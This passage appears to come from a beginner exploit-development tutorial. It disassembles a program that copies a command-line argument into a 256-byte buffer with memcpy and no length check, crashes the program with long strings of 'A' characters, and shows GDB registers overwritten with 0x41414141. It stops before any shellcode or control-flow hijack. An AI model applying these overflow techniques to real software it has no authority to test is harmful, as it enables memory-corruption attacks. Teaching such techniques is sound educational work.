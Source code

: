 ```
   0x00000628 <+40>:    mov    eax,DWORD PTR [ebp+0xc]
   0x0000062b <+43>:    add    eax,0x4
   0x0000062e <+46>:    mov    eax,DWORD PTR [eax]
   0x00000630 <+48>:    push   edx
   0x00000631 <+49>:    push   eax
   0x00000632 <+50>:    lea    eax,[ebp-0x104]
   0x00000638 <+56>:    push   eax
   0x00000639 <+57>:    call   0x450 <memcpy@plt>
   0x0000063e <+62>:    add    esp,0xc
   0x00000641 <+65>:    lea    eax,[ebp-0x104]
   0x00000647 <+71>:    push   eax
   0x00000648 <+72>:    call   0x440 <printf@plt>
   0x0000064d <+77>:    add    esp,0x4
   0x00000650 <+80>:    mov    eax,0x0
   0x00000655 <+85>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x00000658 <+88>:    leave  
   0x00000659 <+89>:    ret    
End of assembler dump.
```

The main function just allocate memory for 0x100 (256 Bytes). At <+57> the function copy program argument without checking it's length to buffer and from here the overflow has been occured. 

Let's run the program.
```
root@BOEING:# ./stack_overflow_basic $(python -c 'print("A"*265)')
Segmentation fault
root@BOEING:# ./stack_overflow_basic $(python -c 'print("A"*264)')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
```

We actually declare an array of 256 bytes but when we try to input 265 "A" the program has error "Segmentation fault"

Segmentation fault is a specific kind of error caused by accessing memory that “does not belong to our program. 

Let's check it out in GDB and see what happens.

```
gdb-peda$ r $(python -c 'print("A"*265)')
Starting program: /kapi/exploitdev/stack_overflow_basic $(python -c 'print("A"*265)')

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x41414141 ('AAAA')
ECX: 0x80003115 --> 0x0 
EDX: 0xb7fb2870 --> 0x0 
ESI: 0xb7fb1000 --> 0x1aedb0 
EDI: 0xb7fb1000 --> 0x1aedb0 
EBP: 0x41414141 ('AAAA')
ESP: 0xbffff5b0 --> 0x2 
EIP: 0xb7e1a541 (<__libc_start_main+65>:        adc    BYTE PTR [ebx+0x6a04ec],al)
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
```
